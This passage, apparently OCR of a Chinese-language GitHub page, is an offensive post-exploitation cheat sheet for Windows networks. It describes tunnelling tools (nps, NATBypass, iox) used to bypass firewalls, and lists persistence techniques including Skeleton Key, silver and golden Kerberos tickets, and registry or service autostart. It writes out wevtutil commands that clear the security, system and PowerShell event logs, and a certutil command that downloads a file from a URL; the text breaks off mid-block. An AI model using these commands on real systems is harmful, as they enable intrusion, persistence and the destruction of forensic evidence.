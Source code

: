 2.  nps 无配置文件落地
    
    ```
    一款轻量级、高性能、功能强大的内网穿透代理服务器。支持tcp、udp、socks5、http等几乎所有流量转发。使用参考：https://mp.weixin.qq.com/s/zI04_kxVFWdnegctAzNmmg。
    ```
    
3.  NATBypass 端口转发
    
    ```
    一款lcx（htran）在golang下的实现。
    通过主动连接具有公网IP的电脑打通隧道可实现内网穿透，让内网主机提供的服务能够借助外网主机来访问。软件实现的端口转发，透明代理，在主机限制入站规则但未限制出站规则的特定情况下可绕过防火墙。
    ```
    
4.  iox 端口转发与 socks5 隧道
    
    ```
    golang实现，端口转发和内网代理工具，功能类似于lcx/ew，但是比它们更好。
    ```
    

权限维持
----

1.  Skeleton Key
    
2.  白银票据
    
3.  黄金票据
    
4.  自启动运行
    

*   创建自启动服务
    
*   启动文件夹
    
*   添加注册表实现自启动
    

日志清除
----

清除系统日志

```
wevtutil cl security
wevtutil cl system
wevtutil cl application
wevtutil cl "windows powershell"

```

辅助模块
----

1.  certutil 下载文件
    
    ```
    certutil.exe -urlcache -split -f $url $path
    